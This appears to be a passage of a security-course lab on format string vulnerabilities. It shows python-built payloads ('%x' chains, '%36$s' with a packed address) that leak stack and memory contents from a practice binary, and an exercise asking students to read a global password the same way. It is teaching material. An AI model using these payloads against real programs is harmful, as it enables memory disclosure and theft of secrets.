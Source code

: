 ```
python -c 'print("EEEE"+".%x"*100)' | ./fs1
Insert a string: ffffcf90buf=0xffffcf90, pin=0xffffcf10
EEEE.ffffcf90.ffffcf10.565561c3.41414141.42414141.43414141.44414141.5a414141.f7dcbc00.f7dc1a6c.565552de.f7dcb35c.f63d4e2e.ffffcf60.7b1ea71.ffffcff4.f7fc33f0.f7fe6740.ffffcfb0.ffffcfb8.1000.8000.ffffcfb0.0.0.800.8.40.f7ffdb98.ffffcff4.f63d4e2e.565552de.f7fd6bd4.5655526c.ffffcffc.[[[45454545]]].2e78252e.252e7825.78252e78.2e78252e.252e7825

python -c 'print("EEEE"+".%36$x")' | ./fs1
Insert a string: ffffcf90buf=0xffffcf90, pin=0xffffcf10
EEEE.45454545

python -c 'print("\xff\xff\xcf\x10"+".%36$s")' | hexdump -C

00000000  ff ff cf 10 2e 25 33 36  24 73 0a                 |.....%36$s.|
0000000b

python -c 'print("\x10\xcf\xff\xff"+".%36$s")' | hexdump -C
00000000  10 cf ff ff 2e 25 33 36  24 73 0a                 |.....%36$s.|
0000000b

python -c 'print("\x10\xcf\xff\xff"+".%36$s")' | ./fs1     
Insert a string: ffffcf90buf=0xffffcf90, pin=0xffffcf10
���.AAAAAAABAAACAAADAAAZ
```

### Exercise 2

```
Purpose: apply a format string attack to read the content of a global vari-
able.
Suggested tool: pwntools, shell + python.
Hints: Find the address of the memory location to read then use the ex-
amples seen before to read the content (the marker example).
```
Find a way to print the content of the password, saved as a global, which has been declared as a variable.

The binary file is available in the lab04 material file:

/lab04material/fs/fs

The source code is also available in the material file:

/lab04material/fs/fs2.c

```
NOTE
You can get the address of a variable the string by means ofgdb. Add a breakpoint (e.g. to the main
function), then use (assuming the symbols have not been stripped down):
x/x &variablename
to print the address of the variable, in this case the pointer to beginning of the string. This is possible if
ASLR is not enabled, as in this case. Otherwise, userabin2to check first.
```
